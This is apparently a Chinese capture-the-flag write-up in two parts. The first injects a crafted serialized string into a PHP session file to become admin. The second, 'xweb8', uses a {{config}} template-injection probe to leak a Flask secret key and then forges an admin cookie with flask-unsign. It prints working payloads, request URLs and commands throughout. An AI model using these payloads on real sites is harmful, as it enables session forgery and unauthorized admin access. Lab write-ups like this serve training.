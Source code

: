 session漏洞，session的默认位置有

    /var/lib/php/sess_PHPSESSID
    /var/lib/php/sessions/sess_PHPSESSID

    /var/lib/php5/sess_PHPSESSID
    /var/lib/php5/sessions/sess_PHPSESSID

    /tmp/sess_PHPSESSID
    /tmp/sessions/sess_PHPSESSID


发现我们可以往session里写东西，但是会多写---mylocalnote---\n

session再存储时进行序列化，读取进行反序列化，默认的序列化引擎是php，其规则是：

    键名+竖线+经过serialize()函数序列处理的值
    因此我们尝试写
    username|s:5:"admin";

但会在首行加入变成

    ---mylocalnote---
    username|s:5:"admin";

按照session序列化引擎php规则，构造：
    
    ---mylocalnote---
    |s:1:"a";username|s:5:"admin";

这样就成功吧---mylocalnote---变成一个键名了，username也会成功反序列化成admin

F12看请求中的sessionid:

    Cookie: PHPSESSID=roc14cumrgut81e87u6i7bf7kh

bp抓包发请求。

    /?content=|s:1:"a";username|s:5:"admin";&name=sess_roc14cumrgut81e87u6i7bf7kh

已经提示是admin了，最后访问 /flag.php

`flag{d0t_Sav3_AnyTh1ng_1n_Tmp}`



## xweb8
提示 name is None,  其实name是个参数。

    /?name=123 # 输出了123
    /?name={{config}}

得到 secret_key: woshicaiji

pip install flask-unsign

    flask-unsign --sign --cookie "{'username':'admin'}" --secret "woshicaiji"
    得到  eyJ1c2VybmFtZSI6ImFkbWluIn0.Xu4O0g.XJfjTax5RNgPPOGF82S2ZXOdTmQ

访问/flag，用bp抓包修改session值为新的token
